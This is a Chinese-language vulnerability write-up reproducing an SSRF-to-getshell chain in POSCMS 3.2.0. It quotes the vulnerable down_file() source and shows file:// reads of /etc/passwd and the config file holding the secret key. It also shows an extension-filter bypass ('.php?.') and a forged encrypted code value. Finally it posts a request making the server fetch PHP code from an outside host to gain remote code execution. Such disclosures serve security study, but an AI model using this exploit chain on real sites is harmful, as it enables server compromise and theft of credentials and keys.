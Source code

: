 POSCMS 3.2.0 ssrf漏洞getshell
=============================

一、漏洞简介
------------

二、漏洞影响
------------

POSCMS 3.2.0

三、复现过程
------------

打开项目源代码，第一个漏洞的出处在`\diy\module\member\controllers\Api.php`中的`down_file()`函数，内容如下：

    // 文件下载并上传
    public function down_file() {

        /***********************************************************
        * Part0. 获取POST参数url中的内容并解析
        ************************************************************/
        $p = array();
        $url = explode('&', $this->input->post('url'));

        foreach ($url as $t) {
        $item = explode('=', $t);
        $p[$item[0]] = $item[1];
        }

        /***********************************************************
        * Part1. 验证用户权限
        ************************************************************/
        !$this->uid && exit(dr_json(0, fc_lang('游客不允许上传附件')));

        // 会员组权限
        $member_rule = $this->get_cache('member', 'setting', 'permission', $this->member['mark']);

        // 是否允许上传附件
        !$this->member['adminid'] && !$member_rule['is_upload'] && exit(dr_json(0, fc_lang('您的会员组无权上传附件')));

        // 附件总大小判断
        if (!$this->member['adminid'] && $member_rule['attachsize']) {
        $data = $this->db->select_sum('filesize')->where('uid', $this->uid)->get('attachment')->row_array();
        $filesize = (int)$data['filesize'];
        $filesize > $member_rule['attachsize'] * 1024 * 1024 && exit(dr_json(0, fc_lang('附件空间不足！您的附件总空间%s，现有附件%s。', $member_rule['attachsize'].'MB', dr_format_file_size($filesize))));
        }

        /***********************************************************
        * Part2. 解密code参数的值获得扩展、路径等信息
        ************************************************************/    
        list($size, $ext, $path) = explode('|', dr_authcode($p['code'], 'DECODE'));

        /***********************************************************
        * Part3. 生成存放路径
        ************************************************************/    
        $path = $path ? SYS_UPLOAD_PATH.'/'.$path.'/' : SYS_UPLOAD_PATH.'/'.date('Ym', SYS_TIME).'/';
        !is_dir($path) && dr_mkdirs($path);

        $furl = $this->input->post('file');

        /***********************************************************
        * Part4. 访问并获取文件  
        ************************************************************/
        $file = dr_catcher_data($furl);
        !$file && exit(dr_json(0, '获取远程文件失败'));

        /***********************************************************
        * Part5. 根据扩展名过滤并存储数据  
        ************************************************************/
        $fileext = strtolower(trim(substr(strrchr($furl, '.'), 1, 10))); //扩展名
        $exts = (array)explode(',', $ext);
        !in_array($fileext, $exts) && exit(dr_json(0, '远程文件扩展名（'.$fileext.'）不允许'));
        $fileext == 'php' && exit(dr_json(0, '远程文件扩展名（'.$fileext.'）不允许'));

        $filename = substr(md5(time()), 0, 7).rand(100, 999);       //文件名

        /***********************************************************
        * Part6. 向路径写入数据并返回响应结果  
        ************************************************************/
        if (@file_put_contents($path.$filename.'.'.$fileext, $file)) {
            $info = array(
                'file_ext' => '.'.$fileext,
                'full_path' => $path.$filename.'.'.$fileext,
                'file_size' => filesize($path.$filename.'.'.$fileext)/1024,
                'client_name' => '',
            );
            $this->load->model('attachment_model');
            $this->attachment_model->siteid = $p['siteid'] ? $p['siteid'] : SITE_ID;
            $result = $this->attachment_model->upload($this->uid, $info);
            if (is_array($result)) {
                list($id) = $result;
                echo json_encode(array('status'=>1, 'id'=>$id, 'name' => dr_strcut($filename, 10).'.'.$fileext));exit;
            } else {
                @unlink($info['full_path']);
                exit(dr_json(0, $result));
            }
        } else {
            exit(dr_json(0, '文件移动失败，目录无权限（'.$path.'）'));
        }
    }

### 源码分析

这段代码的主要逻辑是**根据请求中参数去请求文件内容，并将它保存在特定目录中，最后以json格式返回保存结果**。

Part1没什么好说的，只要管理员不修改默认权限，注册个普通用户就有视频、图片的上传功能。Part2中`dr_authcode()`是一个加解密函数，位于`\diy\dayrui\helpers\function_helper.php`。其具体实现可以不用关心，毕竟源码已经到手，只要找到密钥，就能随意构造加密结果。

![1.png](./resource/POSCMS3.2.0ssrf漏洞getshell/media/rId25.png)

Part3中确定了下载文件的名称，这里我们请求的参数中不包含`code`参数，使`$PATH为空`，则它会取问号表达式的后半段`SYS_UPLOAD_PATH.'/'.date('Ym', SYS_TIME).'/'`，最后的上传路径如下：`/uploadfile/年月/`。

![2.png](./resource/POSCMS3.2.0ssrf漏洞getshell/media/rId26.png)

Part4中的`dr_catcher_data()`函数正是SSRF漏洞的来源，其实现位于`\diy\dayrui\helpers\function_helper.php`。无论代码最后选的是fopen模式还是curl模式，开发人员都没有对可解析的协议做限制，也没有校验请求参数`$url`的范围。

![3.png](./resource/POSCMS3.2.0ssrf漏洞getshell/media/rId27.png)

### 寻找触发点

直接用VSCode的全局搜索功能，寻找`down_file()`函数的调用位置：

![4.png](./resource/POSCMS3.2.0ssrf漏洞getshell/media/rId29.png)

发现它出现在了一个js文件中，于是构造一个XHR的POST请求到服务端，设置`file`参数的值使其访问`/etc/passwd`，得到如下响应：

![5.png](./resource/POSCMS3.2.0ssrf漏洞getshell/media/rId30.png)

用浏览器打开"文件存储路径+返回的文件名"：

![6.png](./resource/POSCMS3.2.0ssrf漏洞getshell/media/rId31.png)

### GetShell

再请求一下`/config/system.php`，该文件中存储有重要的元数据。

![7.png](./resource/POSCMS3.2.0ssrf漏洞getshell/media/rId33.png)

这是因为Part5中的`$ext`变量虽然为空，但它专门过滤了.php文件，好在利用`file://`协议的解析特性，可以绕过这一点，比如`.php?.`或`.php#.`：

![8.png](./resource/POSCMS3.2.0ssrf漏洞getshell/media/rId34.png)

再次用浏览器打开并设置编码格式为UTF-8：

![9.png](./resource/POSCMS3.2.0ssrf漏洞getshell/media/rId35.png)

获取到安全密钥后，可以构造特殊payload绕过扩展名检查。这里，总结一下此次GetShell的思路：

1.  构造特殊payload使.html文件允许被上传
2.  在自己控制的服务器上放置.html文件（里面有恶意代码的php代码）
3.  利用SSRF漏洞，使服务器用http协议访问带外数据（OOB），获取到恶意的.html，形成Getshell

为了绕过扩展名检查，我将加密代码拷贝进另一文件并填入密钥，输入选择`1|html,|0`，运行得到输出为`22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM`，并构造POST参数`file=http://www.0-sec.org/haha.html&url=code=22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM`，这里的`haha.html`里包含了php代码`<?php echo phpinfo();?>`，最终效果如下：

![10.png](./resource/POSCMS3.2.0ssrf漏洞getshell/media/rId36.png)

![11.png](./resource/POSCMS3.2.0ssrf漏洞getshell/media/rId37.png)

如果这里复现失败了，那大概是在于两点：一、加密函数有时效性，过时需要重新生成；二、CentOS默认安装的Apache无法解析包含php代码的html文件，需要在`/etc/httpd/conf.d/php.conf`中添加如下：

![12.png](./resource/POSCMS3.2.0ssrf漏洞getshell/media/rId38.png)

参考链接
--------

> https://xz.aliyun.com/t/4858\#toc-1
